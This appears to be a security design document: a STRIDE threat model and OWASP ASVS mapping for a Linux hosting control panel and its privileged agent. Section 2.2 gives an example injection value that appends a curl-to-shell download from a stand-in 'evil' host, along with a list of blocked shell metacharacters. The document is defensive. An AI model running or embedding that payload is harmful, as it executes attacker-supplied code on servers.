

# 11 — STRIDE Threat Model & OWASP ASVS L2 Security Baseline

**Product:** Garvix Hosting Manager  
**Organization:** Garvix Software Solutions Pvt Ltd  
**Target OS:** AlmaLinux 10 (Tier-1)

---

## 1. Architecture Trust Boundaries

---

## 2. Comprehensive STRIDE Threat Analysis

### 2.1 Privilege Escalation (Elevation of Privilege)
- **Threat Scenario**: A compromised tenant application or low-privileged control panel user attempts to execute commands as `root` or modify `/etc/passwd`, `/etc/sudoers`, or system services.
- **STRIDE Category**: Elevation of Privilege (`E`)
- **Concrete Mitigations**:
  1. Control plane runs as unprivileged UID `990` (`garvix-panel`) with `NoNewPrivileges=yes` and zero `sudo` rules.
  2. `garvix-agent` only executes the 26 allowlisted [`OperationName`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/protocol/types.go#L22-L50) operations.
  3. [`ValidateTenantUID`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/security/pathguard.go#L97-L102) blocks any operation targeting UID `< 1000` or reserved system usernames (`root`, `sshd`, `postgres`, `nginx`, `garvix-agent`).
- **Verification Test Mapping**: [`TestValidateIdentifierAndUID`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/security/pathguard_test.go#L10-L31) verifies rejection of `root`, `garvix-agent`, and UID `999`.

### 2.2 Command Injection (Tampering / Elevation of Privilege)
- **Threat Scenario**: An attacker supplies crafted input such as `example.com; curl http://evil/shell.sh | sh` in a domain name, username, or database identifier.
- **STRIDE Category**: Tampering (`T`), Elevation of Privilege (`E`)
- **Concrete Mitigations**:
  1. [`RejectShellMetacharacters`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/security/pathguard.go#L87-L95) rejects `;|&$` + "`" + `><*?()[]{}!#~\n\r\t\'"\x00` across every request argument key and value in Step 3 (`step3ValidateSchema`).
  2. Step 8 (`step8ExecutePlannedChanges`) uses `exec.CommandContext(ctx, argv[0], argv[1:]...)` directly and explicitly forbids `sh`, `/bin/sh`, `bash`, or `/bin/bash` as `CommandArgv[0]`.
- **Verification Test Mapping**: [`TestValidateIdentifierAndUID`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/security/pathguard_test.go#L20-L22) (`bad;user` rejected).

### 2.3 Symlink & TOCTOU Path Escape Attacks (Tampering / Information Disclosure)
- **Threat Scenario**: A tenant creates a symbolic link inside `/home/acmeweb/public_html` pointing to `/etc/shadow` or `/home/otheruser/wp-config.php` before triggering a virtual host creation, permission repair, or backup restore.
- **STRIDE Category**: Tampering (`T`), Information Disclosure (`I`)
- **Concrete Mitigations**:
  1. [`ValidateAccountPath`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/security/pathguard.go#L140-L176) enforces strict lexical containment under `/home/<linux_username>` and blocks `..`.
  2. [`RejectSymlinkEscape`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/security/pathguard.go#L182-L253) walks every path component with `os.Lstat` to reject symlinks, resolves `filepath.EvalSymlinks`, and opens existing targets with `syscall.O_NOFOLLOW | syscall.O_CLOEXEC`.
  3. Kernel `fs.protected_symlinks=1` and `fs.protected_hardlinks=1` enabled on AlmaLinux 10.
- **Verification Test Mapping**: [`TestValidateAccountPathAndSymlinkEscape`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/security/pathguard_test.go#L33-L58) tests both `..` traversal and `/etc/passwd` symlink escape rejection.

### 2.4 Credential Theft & Secret Leakage (Information Disclosure)
- **Threat Scenario**: Attacker attempts to harvest session tokens, database passwords, TLS private keys, or DKIM keys from logs, API responses, or process environment variables.
- **STRIDE Category**: Information Disclosure (`I`)
- **Concrete Mitigations**:
  1. Passwords are hashed using **Argon2id** (`m=65536, t=3, p=4`).
  2. Database password rotation (`RotateDatabasePassword`) passes a secret reference (`secret_ref`) rather than embedding plaintext passwords in command-line arguments (preventing `/proc/<pid>/cmdline` leakage).
  3. Structured logs and [`AuditRecord`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/protocol/types.go#L222-L242) entries store only the SHA-256 `PlannedChangeHash` and redact sensitive fields.
  4. TLS private keys (`/etc/garvix/tls/live/<domain>/privkey.pem`) are stored `0600 root:root`.

### 2.5 Compromised Agent or Unauthorized Socket Caller (Spoofing)
- **Threat Scenario**: A local tenant process attempts to connect to `/run/garvix-agent/agent.sock` and spoof a `SERVER_ADMIN` request, or a rogue node attempts to join a cluster.
- **STRIDE Category**: Spoofing (`S`), Repudiation (`R`)
- **Concrete Mitigations**:
  1. Socket permissions `0660 root:garvix-panel` in `/run/garvix-agent`.
  2. Step 1 (`step1AuthenticateCaller`) validates kernel `SO_PEERCRED` UID against `AllowedUDSCallerUID` (`0` and `990` only) or verifies 24-hour mTLS client certificate SHA-256 fingerprints.
  3. Step 7 & Step 10 emit immutable pre- and post-execution `AuditRecord` entries with caller PID, UID, GID, and mTLS fingerprint.

### 2.6 Replay Attacks & Concurrent State Corruption (Tampering / Denial of Service)
- **Threat Scenario**: An attacker or faulty network replays a captured RPC request (e.g., `TerminateHostingAccount` or `ApplyDnsZone`) or floods concurrent mutations on the same virtual host.
- **STRIDE Category**: Tampering (`T`), Denial of Service (`D`)
- **Concrete Mitigations**:
  1. Every [`OperationRequest`](file:///Users/vishnubaldwa/Documents/cpanel/agents/linux-agent/internal/protocol/types.go#L140-L155) requires a unique `RequestID`, `CorrelationID`, `IdempotencyKey`, and bounded `Timestamp`.
  2. Step 5 (`acquireResourceLock`) serializes all mutations targeting the same `ResourceKey`.
  3. Step 9 (`step9ValidateFinalState`) + Step 12 (`step12RollbackFromSnapshot`) automatically revert broken configurations if `nginx -t` or `named-checkzone` fails.

### 2.7 Malicious Software Updates & Supply-Chain Tampering (Tampering)
- **Threat Scenario**: A MITM attacker or compromised mirror serves a modified installer or agent binary during installation or upgrade.
- **STRIDE Category**: Tampering (`T`), Elevation of Privilege (`E`)
- **Concrete Mitigations**:
  1. All release manifests and binary archives are signed offline with **Ed25519**.
  2. [`preflight-check.sh`](file:///Users/vishnubaldwa/Documents/cpanel/installers/almalinux/preflight-check.sh#L204-L227) verifies the Ed25519 signature via `openssl pkeyutl -verify` against the pinned Garvix release public key before any installation can proceed, exiting with code `50` (`EXIT_SIGNATURE_INVALID`) on mismatch.

### 2.8 Cross-Tenant Access & Insecure Direct Object Reference (Information Disclosure / Tampering)
- **Threat Scenario**: Tenant A (`tenant-alpha`) modifies the `account_username` or `tenant_id` parameter in an API/RPC request to modify Tenant B's (`tenant-beta`) domain, database, or files.
- **STRIDE Category**: Information Disclosure (`I`), Tampering (`T`)
- **Concrete Mitigations**:
  1. Step 2 (`step2AuthorizeAndVerifyTenant`) verifies `Caller.TenantID == Request.TenantID` and checks `TenantOwnershipMap[req.AccountUsername] == req.TenantID`.
  2. systemd `BindPaths=/home/<username>` and `ProtectHome=tmpfs` ensure Tenant A's processes cannot see `/home/<tenant_b>` at the kernel mount namespace level.

---

## 3. OWASP ASVS v4.0.3 Level 2 Compliance Mapping

| ASVS Section | Control Requirement | Garvix Implementation |
| :--- | :--- | :--- |
| **V1: Architecture** | Verify all components are segregated by trust boundaries. | Unprivileged Fastify API (`UID 990`) separated from `garvix-agent` via UDS `SO_PEERCRED` and 12-step pipeline. |
| **V2: Authentication** | Verify Argon2id password storage and TOTP/WebAuthn MFA. | Argon2id (`64 MiB`) + mandatory MFA for `GARVIX_SUPER_ADMIN`, `ORG_OWNER`, and `SERVER_ADMIN`. |
| **V3: Session Mgmt** | Verify short-lived tokens, rotation, and instant revocation. | HttpOnly/Secure/SameSite=Strict sessions + Redis revocation list + CSRF double-submit/Origin check. |
| **V4: Access Control** | Verify principle of least privilege and tenant isolation (IDOR defense). | 10-role RBAC matrix + Step 2 `TenantOwnershipMap` verification in both API and Linux Agent. |
| **V5: Validation** | Verify strict allowlist validation and OS command injection prevention. | `OperationName` allowlist, `ValidateIdentifier`, `RejectShellMetacharacters`, and `exec.CommandContext` argv arrays. |
| **V7: Error & Audit** | Verify immutable security audit logs for all administrative actions. | Pre- and post-execution `AuditRecord` with SHA-256 `PlannedChangeHash` and correlation IDs. |
| **V10: Malicious Code** | Verify updates are cryptographically signed and verified. | Ed25519 manifest signature check in `preflight-check.sh` and agent updater. |
| **V12: Files & Resources** | Verify path traversal and symlink attacks are prevented. | `ValidateAccountPath` + `RejectSymlinkEscape` (`os.Lstat`, `EvalSymlinks`, `O_NOFOLLOW`). |
